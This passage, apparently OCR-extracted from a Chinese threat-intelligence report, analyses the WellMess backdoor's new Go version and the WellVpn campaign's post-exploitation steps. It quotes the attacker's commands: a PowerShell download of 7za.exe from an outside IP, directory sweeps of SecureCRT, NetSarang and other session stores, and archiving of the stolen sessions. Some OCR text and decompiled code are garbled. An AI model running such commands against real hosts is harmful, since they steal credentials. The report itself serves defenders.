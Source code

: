 其中在通信过程中，会采用RC6算法加密  

#### 新版WellMess_Botlib  

本次使用的后门为Wel1Mess使用G0语言开发的最新版后门，最新版的样本与老版本的WellMess_Botlib 相比做了小部分功能调整，新版本同时可以支持http、https、域名多种协议进行命令控制。  

其中在命令参数上多了一条"pr"指令用于设置使用的协议，而协议分为Protocol_1、Protocol_2、Protocol_3。  

Protocol_1采用http 通信方式，Protocol_2采用https 方式，这两种和老版WellIMess_Botlib在通信方面采用相同加密方法。Protocol_3采用DNS隧道的方法，使用其中的TXT类型数据进行通信。在加密算法上不再使用AES和RC6而是采用RC4进行加密，同时采用zbase32进行编码。  

net_LookupTxT(dnsHare, \*(_string")&name_4[4]. \*(error_0 \*)&nane_4[16]);   
3 $=$ \*(unsigned _int64 \*]&nane_4[4] > 32;   
V2 $=$ (string_")"(unsigned_int64 )&name_4[4];   
value_len = \*(unsigned _int64 \*)&name_4[4] ) 32;   
value_ptr = (string \*)\*(unsigned _int64 =)&name_4[4]:   
if ( 1\*(_DHoRD ")&nane_4[16] } break;   
if (++count = 1e ) return;  

Protocol_3同时增加了'com'命令用于判断执行shell命令。目前捕获的样本中，Protocol_3功能暂未发现使用。  

![](https://cdn-mineru.openxlab.org.cn/extract/7d232687-82c0-4e26-bc20-dfcb5585801e/88f0ebce879226a20b57442180e4eb2e50f1e9c683f93c4f4f8651abb3f144ac.jpg)  

样本本身依旧不带持久化功能，这和老版本专注于攻击服务器有关，在新版本中的持久化依旧依赖于渗透过程中shell命令交互执行。  

### 5.后渗透行为分析  

在样本成功落地并和C&C进行交互后，会执行攻击者下发的远程命令进行后渗透攻击，相比于WellServ攻击行动，WellVpn行动的攻击拥有更明确的目的，执行的命令大致为以下几种:  

![](https://cdn-mineru.openxlab.org.cn/extract/7d232687-82c0-4e26-bc20-dfcb5585801e/9a48c2730fc29cb530648fccde9e22ba98a589f59924d92627430aff20429d85.jpg)  

我们对部分特征很强的shel操作进行了整理与分析：  

）收集本地机器信息部分，主要是对主机相关的信息进行收集·下载第三方工具部分，可以看出攻击者除了使用作为C&C的几个端口，还会使用其他端口下载第三方工具辅助操作  

<html><body><table><tr><td>启动程序</td><td>执行命令</td></tr><tr><td>cmd.exe</td><td>Wmic LOGlCALDISK get Caption, Description, FileSystem, FreeSpace Name,Size</td></tr></table></body></html>  

<html><body><table><tr><td>启动程序</td><td>执行命令</td></tr><tr><td rowspan="3">powershell.exe</td><td>New-Object</td></tr><tr><td>Net.WebClient).DownloadFile("http://103.216.221.19:81/7za.exe e","s(cat</td></tr><tr><td>ENV:\\LOCALAPPDATA)\temp\7za.exe</td></tr></table></body></html>  

·收集密码信息并打包部分，攻击者本次攻击行动核心目的是收集密码信息，经过统计发现，主要目标是远程终端软件的session数据。收集后使用从C&C下载的7z或者其他的打包工具打包，最终利用WellMess后门中的上传功能上传。  

<html><body><table><tr><td>启动程序</td><td>执行命令</td></tr><tr><td>cmd.exe</td><td>Dir /s /b "%appdata%\VanDyke\Config" & dir /s /b"%appdata%\***\data & dir /s /b "%appdata%\Microsoft\Windows\Recent" & dir /s /b %appdata%\NetSarang\SECSH" & dir /s/b %appdata%\NetSarang\xftp\Sessions" & dir /s /b</td></tr><tr><td>7za.exe</td><td>%appdata%\Notepad++\backup" & dir /s /b"%appdata%\Tencent" a -V10m %UserProfile%\AppData\Local\Temp\s.7z e:\SecureCRT\Config\Sessions</td></tr></table></body></html>  

后渗透相关的She操作显示攻击者主要以收集信息、特别是密码信息为目的，而中招人员维护了大量相关机构的网络基础设施的账号密码。我们推测攻击者在获取这些系统的账户密码后，会通过相关系统作为突破口，再针对相关目标发起新一轮的网络渗透攻击，相关单位需要提高警惕，排查可能出现的网络异常情况。  

## 幕后组织归属  
